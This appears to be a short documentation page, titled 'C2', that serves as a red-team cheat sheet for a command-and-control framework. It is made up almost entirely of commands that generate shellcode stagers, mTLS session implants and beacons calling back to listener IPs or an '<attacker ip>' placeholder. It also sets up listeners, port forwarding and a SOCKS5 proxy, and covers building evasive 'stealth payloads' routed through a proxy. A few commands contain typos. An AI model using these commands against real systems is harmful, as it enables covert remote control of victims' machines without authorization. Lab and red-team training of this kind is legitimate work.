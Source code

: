 ```yaml
---
title: "C2"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


- Generate a shell code (session) : 
```sh
profiles new --mtls 10.8.3.12 --format shellcode win-shellcode

stage-listener --url http://10.8.3.12:9001 --profile win-shellcode

generate stager --lhost 10.8.3.12 -lport 9001 --protocole http --save /tmp
```
https://github.com/JohnHammond/binnim

- Start listener : 
```sh
mlts
use sessionId
```

- Generate Session Implant for Labs : 
```sh
generate --mtls 10.8.3.12:443 --save /workspace
mtls --lport 443
#or 
generate --mtls 10.8.3.12 --os linux --arch amd64 --skip-symbols --save /workspace --name heron
mtls
```

-  Generate Beacon Implant for Labs : 
```sh
generate beacon --mtls 10.8.3.12:4431 --save /workspace/beacon.exe --seconds 5 --jitter 3
```

- Regenerate an Implant : 
```sh
regenerate --save /Users/moloch/Desktop NEW_GRAPE
```

- Port Forwarding
```sh
portfwd add --remote 10.10.10.10:22
```

- Stealth payloads 
```sh
generate beacon --seconds 30 --jitter 3 --os windows --arch amd64 --format shellcode --http <attacker ip>?proxy=http://<proxy ip>:8080,<attacker ip>?driver=wininet --name wutai-http --save /tmp/http.bin -G --skip-symbols
```

- Proxychains : 
```sh
socks5 start
```